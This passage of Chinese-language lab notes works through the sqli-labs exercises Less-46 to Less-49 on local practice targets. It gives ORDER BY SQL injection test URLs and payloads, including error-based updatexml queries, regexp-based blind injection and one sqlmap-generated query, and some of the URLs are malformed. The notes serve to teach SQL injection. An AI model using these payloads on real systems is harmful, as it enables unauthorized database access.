 payload：

> http://localhost/Less-46/?sort=1%20or%20%20updatexml(1,concat(0x2829,version()),1)%20--+"

## Less-47

### GET字符型基于错误的orderby从句注入

测试：

> http://localhost/Less-46/?sort=1%27%20or%201=1%20--+"
>
> http://localhost/Less-46/?sort=1%20%20or%201=1%20--+"

判断为字符型注入

payload：

> http://localhost/Less-46/?sort=1%27or%20%20updatexml(1,concat(0x2829,version()),1)%20--+"

## Less-48

### GET数字型的orderby从句盲注

测试:

> http://localhost/Less-48/?sort=0%27%20or%201=1%20%20--+(无回显)
>
> http://localhost/Less-48/?sort=0%20or%201=1%20%20--+（有回显）

数字型

尝试了使用boolenBased注入。常规的boolenBased方式用不了，上网查了查

payload：

> http://localhost/Less-48/?sort=(select+1+regexp+if(substring(database(),1,1)=0x73,1,0x00"

原理为1与`if`语句正则匹配，database()第一个字符=0x73为真则if为1，则regexp匹配结果为1，否则为0。

sqlmap跑的payload：

> \[http://localhost/Less-48/?sort=(select](http://localhost/Less-48/?sort=(select)")(case when (7459=7459) then 7459 else 7459 \*(select 7459 from information\_schema.plugins) end))

## Less-49

### GET字符型orderby从句盲注

测试：

> http://localhost/Less-49/?sort=0%20or%201=1"

payload：

> http://localhost/Less-49/?sort=0%27%20%20or%20%201=(select+1+regexp+if(substring(database(),1,1)=0x72,1,0x00))%20--+"
